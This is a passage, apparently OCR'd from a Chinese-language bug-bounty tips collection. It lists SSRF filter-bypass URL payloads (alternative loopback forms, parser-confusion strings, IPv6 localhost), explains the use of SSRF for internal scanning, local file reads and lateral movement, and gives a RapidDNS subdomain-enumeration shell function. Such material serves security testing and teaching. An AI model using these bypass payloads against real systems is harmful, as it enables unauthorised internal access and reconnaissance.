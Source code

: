 ```bash
http://127.127.127.127
http://127.0.0.0
```

2) 使用罕见地址绕过：

```bash
http://127.1
http://0
```

3) 使用技巧组合绕过：

```bash
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
urllib : 3.3.3.3
```

4) 绕过弱解析器：

```bash
http://127.1.1.1:80\@127.2.2.2:80/
```

5) 使用 localhost with \[::\] 绕过：

```bash
http://[::]:80/
http://0000::1:80/
```

1.

什么是 SSRF 漏洞，我们可以用它们来做什么。一般来说，SSRF 允许我们

• 访问在远程服务器上运行的环回接口上的服务。• 扫描内部网络，并与发现的服务进行潜在的交互。• 使用 file:// 协议处理程序读取服务器上的本地文件。• 横向移动 / 转入内部环境。

如何找到 SSRF？当目标网络应用程序允许我们访问外部资源时，例如从外部 URL 加载的配置文件图像（在第三方网站上运行），我们可以尝试加载易受攻击的网络应用程序所访问的内部资源。例如，我们可以

1. 我们发现下面的 URL 可以使用。 `https://example.com:8000/page?user=&link=https://127.0.0.1:8000`2. 然后我们可以运行 Intruder 攻击（Burp Suite），尝试不同的端口，有效地对主机进行端口扫描。3. 我们也可以尝试扫描 192.168.x.x 等私有 IP，发现内部网络中的活 IP。

  

## 28\. 使用 RapidDNS 发现子域名

By @Verry\_\_D\[74\] Source: link\[75\]

在您的.bash\_profile 中添加这个小函数，以使用 RapidDNS\[76\]API 快速查找子域名。

```bash
rapiddns(){
curl -s "https://rapiddns.io/subdomain/$1?full=1" \
 | grep -oP '_blank">\K[^<]*' \
 | grep -v http \
 | sort -u
}
```

我们就可以这样使用。
